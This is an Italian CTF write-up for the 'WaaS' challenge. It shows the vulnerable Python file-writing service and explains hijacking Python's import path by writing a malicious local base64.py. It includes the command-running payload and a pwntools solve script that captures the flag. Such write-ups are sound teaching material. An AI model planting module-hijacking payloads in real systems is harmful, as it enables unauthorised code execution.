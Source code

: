 +++
title = 'WaaS'
date = 2024-08-06T11:27:07+02:00
tags = [
  "Misc",
  "Python",
]
draft = true
+++

<h1 style='text-decoration: underline;text-decoration-color: #9e8c6c;font-size: 3em;'>Waas</h1>

**Descrizione**: Writing as a Service!

## Introduction

WaaS (Writing as a Service) ci permette di sovrascrivere un file sul sistema (dopo un certo controllo dell'input) e di inserirvi tutto ciò che vogliamo (fino a quando non si incontra un newline).

```python
import subprocess
from base64 import b64decode as d
while True:
        print("[1] Write to a file\n[2] Get the flag\n[3] Exit")
        try:
                inp = int(input("Choice: ").strip())
        except:
                print("Invalid input!")
                exit(0)
        if inp == 1:
                file = input("Enter file name: ").strip()
                assert file.count('.') <= 2 # Why do you need more?
                assert "/proc" not in file # Why do you need to write there?
                assert "/bin" not in file # Why do you need to write there? 
                assert "\n" not in file # Why do you need these?
                assert "chall" not in file # Don't be overwriting my files!
                try: 
                        f = open(file,'w')
                except:
                        print("Error! Maybe the file does not exist?")

                f.write(input("Data: ").strip())
                f.close()
                print("Data written sucessfully!")

        if inp == 2:
                flag = subprocess.run(["cat","fake_flag.txt"],capture_output=True) # You actually thought I would give the flag?
                print(flag.stdout.strip())
```

## Solution

In un primo momento si potrebbe pensare di provare a bypassare la validazione dell'input, magari riscrivendo il funzionamento del comando cat o del file di sfida stesso, ma questo non è possibile.
Una cosa molto bizzarra è l'importato ma inutilizzato `b64decode` dal modulo `base64`, che è ciò che ci permette di risolvere la sfida.

Quando python importa i moduli, guarda in `sys.path`, che ha un elenco di directory valide da cui importare i moduli. Dopo una rapida ricerca nei [python3 docs](https://docs.python.org/3/library/sys_path_init.html), scopriamo che la prima directory in cui cerca è la stessa directory in cui si trova il file, il che significa che se abbiamo un file `base64.py` nella directory, allora python cercherà di importare un simbolo `b64decode` da quel file, invece del comune modulo conosciuto.
Un'altra caratteristica del comportamento di importazione di python che possiamo usare è che tutto il codice di un modulo importato sarà eseguito. Per esempio, se un file `test.py` ha `print('Hello, World!')` e può essere eseguito (per esempio se è al livello di indentazione più basso), un file con `import test` vedrà effettivamente `Hello, World!` stampato su `stdout`.
Pertanto, poiché la funzione `open` con una flag `'w' creerà un file se non esiste, possiamo semplicemente creare un file chiamato base64.py` e scriverci dentro il nostro codice malevolo.

Qualcosa del genere farà al caso vostro:

```python
import os; b64decode = 0; os.system("cat flag.txt")
```

Ma la flag non è ancora nostro; dobbiamo sfruttare il fatto che l'istanza non resetta i suoi file ogni volta che ci si connette, il che significa che il nostro `base64.py` rimarrà nella cartella per tutta la durata dell'istanza. Questo significa che dobbiamo semplicemente riconnetterci e ottenere la flag.

`solve.py`

```python
from pwn import *

def solve():
  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance

  r.sendlineafter(b'Choice: ', b'1') # 1 to write a file
  r.sendlineafter(b'Enter file name: ', b'base64.py')
  r.sendlineafter(b'Data: ', b'import os; b64decode = 0; os.system("cat flag.txt")')

  r.close()

  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance
  flag = r.recvline().decode()
  print(f'flag: {flag}')
  r.close()

if __name__ == '__main__':
  solve()
```

```text
$ flag: n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_f5c63f47af0e}
```

<p align="right">Author: vympel</p>
